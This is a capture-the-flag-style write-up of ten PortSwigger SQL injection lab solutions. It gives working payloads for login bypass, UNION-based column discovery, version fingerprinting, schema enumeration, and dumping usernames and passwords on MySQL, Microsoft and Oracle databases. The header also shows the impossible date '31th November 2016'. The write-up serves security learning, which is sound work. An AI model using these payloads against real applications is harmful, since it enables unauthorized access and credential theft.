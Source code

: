 ```yaml
---
title: Portswigger Lab SQLi (UNION)
date: 2023-01-28 09:45:47 +07:00
modified: 2023-01-28 09:45:47 +07:00
tags: [Portswigger, SQLi , Writeup]
description: First 10 Labs of SQLi Lab based on UNION attack.
image: https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/logo.png
---
```

<img src="https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">SQL Injection (UNION)</font>

31<sup>th</sup> November 2016

​		Machine Author(s): [Portswigger](https://portswigger.net/web-security/all-labs)

### Description:

First 10 Labs of SQLi Lab based on UNION attack.



## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

By making the statement true we can get all the categories.

Payload → `'OR 1=1-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/1.png)


## SQL injection vulnerability allowing login bypass

In the login page after typing the username we can just comment the rest of the statement. Which will make the password parameter a comment.

Payload → `administrator'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/2.png)


## SQL injection UNION attack, determining the number of columns returned by the query

First we have to find how many columns are there. We can use the [ORDER BY]() keyword. Lets increase the payload number by 1 until we get an error.

Payload → `'ORDER BY 3--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/3.png)

When we reach 4 we get a error.

Payload → `'ORDER BY 4--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/4.png)

Now we know that there are 3 columns. Lets use UNION to get all the columns.

Payload → `' UNION SELECT NULL,NULL,NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/5.png)


## SQL injection UNION attack, finding a column containing text

Now that we know which table has 3 columns, we have to find the column that is injectable. In this case, 2nd column was injectable.

Payload → `' UNION SELECT NULL,'ap8kCb',NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/6.png)


## SQL injection UNION attack, retrieving data from other tables

We go back to find the number of the column. In this case, we get an error at 3. So, the number of the column is 2.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/7.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/8.png)

Next, we get the username and password from the user's table using UNION.

Payload → `' UNION SELECT username,password FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/9.png)

We get the admin name and password. After we log in, the lab is solved.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/10.png)


## SQL injection UNION attack, retrieving multiple values in a single column

We can use the CONCAT keyword to get information in one column.

Payload → `' UNION SELECT NULL,CONCAT(username,' ',password) FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/11.png)



## SQL injection attack, querying the database type and version on Oracle

For Oracle database we can get [banner]() from [v$version]() table to get version information.

Payload → `' UNION SELECT banner,NULL FROM v$version--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/12.png)



## SQL injection attack, querying the database type and version on MySQL and Microsoft

To get MySQL or Microsoft database version we can use [@@version]() keyword.

Payload → `' UNION SELECT @@version,NULL-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/13.png)

## SQL injection attack, listing the database contents on non-Oracle databases

First we have to find the table_name from [information_schema.tables]()


Payload → `' UNION SELECT table_name,NULL FROM information_schema.tables--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/14.png)

We found the table of the user. Next, we are going to get the column names from the table.

Payload → `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_neqdue'--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/15.png)

After getting the column names we can print out the data and after logging in with the administrator we solve the lab.

Payload → `' UNION SELECT username_skjbtp,password_ajvmno FROM users_neqdue--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/16.png)


## SQL injection attack, listing the database contents on Oracle

Lets get the table name first.

Payload → `' UNION SELECT table_name,NULL FROM all_tables-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/17.png)

Now that we have the table name lets get the column names from that table.

Payload → `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ETYIRN'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/18.png)

Now lets get Admin username and password from the columns.

Payload → `' UNION SELECT USERNAME_EPLQOW,PASSWORD_ZXLHQB FROM USERS_ETYIRN-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/19.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/20.png)


